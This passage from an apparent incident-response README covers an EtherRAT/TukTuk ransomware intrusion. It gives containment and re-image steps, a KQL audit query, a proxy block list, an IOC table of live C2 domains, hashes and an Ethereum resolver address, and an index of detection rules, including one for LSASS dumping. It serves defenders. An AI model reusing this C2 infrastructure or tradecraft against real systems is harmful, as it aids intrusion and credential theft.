     /var/log/suricata/*.log | awk '{print $1, $5, $11}' | sort -u
```

```kql
// AD-wide GPO change audit (Sentinel SecurityEvent)
SecurityEvent
| where TimeGenerated > ago(7d)
| where EventID in (5136, 5137, 5141)
| where ObjectClass == "groupPolicyContainer"
   or ObjectDN has "Policies"
| extend who = SubjectUserName, when = TimeGenerated
| project when, Computer, who, OperationType, ObjectDN, AttributeLDAPDisplayName, AttributeValue
| order by when desc
```

### Containment, eradication, recovery

**Containment.** Network-isolate every host with the Run key value name `AppResolver` carrying `conhost --headless`. Block at the edge proxy: `*.trycloudflare.com`, `1rpc.io`, `arweave.net`, `g8way.io`, `wasabisys.com`, `gotoresolve.com` (only if it is not an approved RMM), `borjumaniya.store`. Revoke all active RDP and WinRM sessions on impacted hosts. If you suspect SYSVOL drop, pause AD replication with `repadmin /options $DC +DISABLE_OUTBOUND_REPL`.

**Eradication.** Re-image is mandatory — do not clean. EtherRAT rewrites itself at runtime and TukTuk side-loading is hard to validate clean without re-provisioning. Reset all service-account passwords used in lateral movement. Double-rotate `krbtgt` twice with a 24h gap. If ADCS is in scope, revoke and re-issue KDC certificates. Delete the malicious GPOs detected; review SYSVOL changes for the last 14 days as a safety window. Block the 12 TryCloudflare URLs and the 2 Ethereum contract addresses in EDR/proxy (the contracts cannot be torn down, only ignored).

**What NOT to do.** Do not reboot any host before the RAM dump (you lose `/api/reobf/` and the TukTuk transport config). Do not clean manually without re-image (in-memory plus multi-persistence). Do not revoke GoTo Resolve tokens before network isolation (the operator notices and accelerates encryption). Do not block `nodejs.org/dist` (you break legitimate developers; block by process and path in EDR, not by domain).

### Recovery validation

Restore from offline backups dated before `t0`. If `t0` falls inside backups, rebuild from gold images. The environment is considered clean when:

1. Zero hits on hunts H1/H2/H3 over a 72h post-recovery window.
2. GPO replication re-enabled only after SYSVOL gold baseline is validated against the golden image.
3. Defender ASR rules set to `Block` (not Audit) for: "Block credential stealing from LSASS", "Block process creations from PSExec/WMI", "Block executable content from email/webmail".
4. All RDP, WinRM, and SMB shares audited for residual unauthorised access.

## IOCs

| Type | Value | Context | Confidence | Source |
|---|---|---|---|---|
| sha256 | `d9487fdc097f770e5661f9e5dee130068cb179d33716abff1a21c8cb901f25a6` | RAMMap.msi initial dropper | high | DFIR Report TB40048 |
| sha256 | `8c2665adf8bfab65463f2a9bd1b7bb0231de3f5c1e6a2e51479e44aaac2e7bf0` | MVnVmUYj.cmd EtherRAT loader | high | DFIR Report TB40048 |
| sha256 | `4142d5efd4ea2abab77f2f0a917610e2ff976bf9e19d7ad1e9156eccdc5412db` | A7Pnj975bl.cfg EtherRAT initial payload | high | DFIR Report TB40048 |
| sha256 | `19021e53b9929fdf4b7d0e0707434d56bb73c1a9b7403c8837b44d1c417198dc` | log4net.dll TukTuk side-loaded | high | DFIR Report TB40048 |
| sha256 | `1795eacd2c58894ccdd6be8854fe6456c3b069a3a873432343b57b475b256aee` | smokymo.msi GoTo Resolve installer | high | DFIR Report TB40048 |
| sha256 | `2d4b4bb18b8445e49eeda571982874403befcecf78266e3d405f6529d98bee46` | v72HYLU3OpRBznc.ini EtherRAT runtime state | high | DFIR Report TB40048 |
| domain | `1rpc.io` | EtherRAT smart-chain RPC resolver | high | DFIR Report and Sysdig |
| domain | `arweave.net` | TukTuk dead-drop resolver | high | DFIR Report TB40048 |
| domain | `g8way.io` | TukTuk Arweave alt gateway | high | DFIR Report TB40048 |
| domain | `borjumaniya.store` | TukTuk fallback HTTP C2 | high | DFIR Report TB40048 |
| domain | `vefbdzzuaadnascpeqcn.supabase.co` | TukTuk Supabase C2 | high | DFIR Report TB40048 |
| domain | `k135neflez.westus3.azure.clickhouse.cloud` | TukTuk ClickHouse C2 | high | DFIR Report TB40048 |
| url | `https://witch-skins-lip-coal.trycloudflare.com` | Sample TryCloudflare tunnel C2 | high | DFIR Report TB40048 |
| string | `0xdf0b529043ef7a2bb9111bad26de624a326bacf9` | Ethereum smart contract as C2 resolver | high | DFIR Report TB40048 |
| string | `a6278417-39f4-407e-90bf-599f74726e66` | Arweave Drive-Id for TukTuk config | high | DFIR Report TB40048 |
| cve | `CVE-2025-55182` | React2Shell upstream initial-access vector for the Linux EtherRAT origin | high | Sysdig Dec-2025 |
| regkey | `HKCU\Software\Microsoft\Windows\CurrentVersion\Run\AppResolver` | EtherRAT Run-key persistence | high | DFIR Report TB40048 |

Full IOC list with context: [`iocs.csv`](./iocs.csv).

## Secondary findings

- **CVE-2026-20182 — Cisco Catalyst SD-WAN Controller Authentication Bypass (CVSS 10.0)** added to CISA KEV on 14 May 2026 with Emergency Directive ED 26-03 and supplemental hunt and hardening guidance. Allows an unauthenticated remote attacker to bypass authentication and obtain administrative privileges on the SD-WAN Controller. If you operate Cisco SD-WAN, patch immediately and audit historical authentication logs.
- **NGINX Rift — CVE-2026-42945 (CVSS 9.2)**: 18-year-old heap buffer overflow in `ngx_http_rewrite_module` affecting NGINX 0.6.27 through 1.30.0. Remotely reachable over HTTP, no authentication required when configurations combine `rewrite` and `set` directives — a common pattern in API gateways and reverse proxies. Public PoC available. DoS confirmed in many environments; RCE plausible when ASLR is disabled.
- **Instructure Canvas — ShinyHunters claim 275M records stolen across ~8,809 educational institutions**. Confirmed cyber incident affecting the cloud-hosted Canvas LMS. ShinyHunters published per-institution record counts. Largest education-sector breach of the year by scale. Canvas customers should rotate credentials, audit OAuth/SAML logs, and evaluate exposure of student PII, grades, and IEPs.

## Pedagogical anchors

- **Three layers of modern tradecraft converge in one operation**: blockchain-resolved C2 (Ethereum + Arweave), SaaS-abusing C2 (ClickHouse, Supabase, Ably, Dropbox, GitHub Issues), and AI-generated payloads. Defenders cannot ignore any of the three.
- **Operator vs. tooling attribution**: EtherRAT has DPRK fingerprints but the operator here is e-crime. Read attribution at the operational layer, not the implant layer — implants travel between actors.
- **RMM-as-backdoor is the dominant lateral pattern**: GoTo Resolve here, ScreenConnect in Akira intrusions, AnyDesk in Black Basta, TeamViewer in Conti-era. DCs must never carry third-party RMM.
- **GPO + SYSVOL is the fastest ransomware fan-out path** in Active Directory. Detection there is the last reliable moment before domain-wide encryption. Audit GPO changes as if they were code commits.
- **Always RAM-dump before reboot**: `/api/reobf/` self-overwrite and TukTuk's in-memory config mean disk artefacts are stale snapshots. Disk forensics alone is insufficient for this class of implant.
- **AI-generated malware has stylistic fingerprints**: symmetric multi-transport buses, inconsistent naming across modules, redundant exception handling, fully-wired but unused features. Build a detection-engineering checklist for these style anchors — they will appear in more frameworks across 2026.

## What's in this folder

| File | Purpose |
|---|---|
| [`README.md`](./README.md) | This document |
| [`kill_chain.svg`](./kill_chain.svg) | GitHub-friendly adaptive SVG of the full kill chain with detection anchors |
| [`sigma/etherrat_node_headless_appdata.yml`](./sigma/etherrat_node_headless_appdata.yml) | Sigma rule for `node.exe`/`conhost --headless` from AppData with `.cfg` argument |
| [`sigma/tuktuk_sideload_signed_apps_log4net.yml`](./sigma/tuktuk_sideload_signed_apps_log4net.yml) | Sigma rule for TukTuk DLL side-loading under Greenshot/SyncTrayzor/DocFX/Cake |
| [`sigma/lsass_dump_comsvcs_ordinal.yml`](./sigma/lsass_dump_comsvcs_ordinal.yml) | Sigma rule for LSASS minidump via `comsvcs.dll` ordinal `#+0000` |
| [`kql/etherrat_staging_chain_nodejs_ethereum.kql`](./kql/etherrat_staging_chain_nodejs_ethereum.kql) | KQL: MSI/cmd → nodejs.org/dist plus Ethereum RPC `1rpc.io` within 30 min |
| [`kql/tuktuk_saas_exotics_burst_atypical_host.kql`](./kql/tuktuk_saas_exotics_burst_atypical_host.kql) | KQL: egress to ClickHouse/Supabase/Ably/Arweave/TryCloudflare from no-baseline host |
| [`kql/gotoresolve_install_dc_plus_gpo_drop.kql`](./kql/gotoresolve_install_dc_plus_gpo_drop.kql) | KQL: GoTo Resolve install on DC/server tier plus SYSVOL/NETLOGON write within 24h |
| [`yara/tuktuk_sideload_log4net_2026.yar`](./yara/tuktuk_sideload_log4net_2026.yar) | YARA: TukTuk log4net stub heuristic plus exact hash anchor |
| [`suricata/etherrat_tuktuk_c2_anchors.rules`](./suricata/etherrat_tuktuk_c2_anchors.rules) | Suricata: DNS plus TLS SNI anchors for the C2 plus exfil cluster |
| [`hunts/peak_h1_etherrat_node_headless.md`](./hunts/peak_h1_etherrat_node_headless.md) | PEAK H1 — Headless Node from AppData |
| [`hunts/peak_h2_tuktuk_dll_sideload.md`](./hunts/peak_h2_tuktuk_dll_sideload.md) | PEAK H2 — Signed userland binary side-load from non-install paths |
| [`hunts/peak_h3_gotoresolve_dc_plus_gpo_drop.md`](./hunts/peak_h3_gotoresolve_dc_plus_gpo_drop.md) | PEAK H3 — Pre-ransomware fan-out chain on DCs |
| [`iocs.csv`](./iocs.csv) | Complete IOC list with type, value, context, confidence, source |

## Sources

- [Flash Alert: EtherRat and TukTuk C2 End in The Gentleman Ransomware — The DFIR Report TB40048 (11 May 2026)](https://thedfirreport.com/2026/05/11/flash-alert-etherrat-and-tuktuk-c2-end-in-the-gentleman-ransomware/)
- [EtherRAT: DPRK uses novel Ethereum implant in React2Shell attacks — Sysdig TRT (December 2025)](https://www.sysdig.com/blog/etherrat-dprk-uses-novel-ethereum-implant-in-react2shell-attacks)
- [EtherRAT Distribution Spoofing Administrative Tools via GitHub Facades — Atos Threat Research Center (March 2026)](https://atos.net/en/lp/cybershield/etherrat-distribution-spoofing-administrative-tools-via-github-facades)
- [Along for the Ride — When Legitimate Software Becomes a Signed Malware Loader — Expel](https://expel.com/blog/along-for-the-ride-when-legitimate-software-becomes-a-signed-malware-loader/)
- [UNC5142 EtherHiding to Distribute Malware — Google Cloud Threat Intelligence Group](https://cloud.google.com/blog/topics/threat-intelligence/unc5142-etherhiding-distribute-malware)
- [CISA Adds CVE-2026-20182 (Cisco SD-WAN) to KEV — Emergency Directive ED 26-03 (14 May 2026)](https://www.cisa.gov/news-events/alerts/2026/05/14/cisa-adds-one-known-exploited-vulnerability-catalog)
- [NGINX Rift CVE-2026-42945 — Security Affairs (13 May 2026)](https://securityaffairs.com/192132/hacking/nginx-rift-an-18-year-old-flaw-in-the-worlds-most-deployed-web-server-just-came-to-light.html)
- [Millions of Students' Personal Data Stolen in Major Education Cyberattack — Malwarebytes (May 2026)](https://www.malwarebytes.com/blog/news/2026/05/millions-of-students-personal-data-stolen-in-major-education-cyberattack)
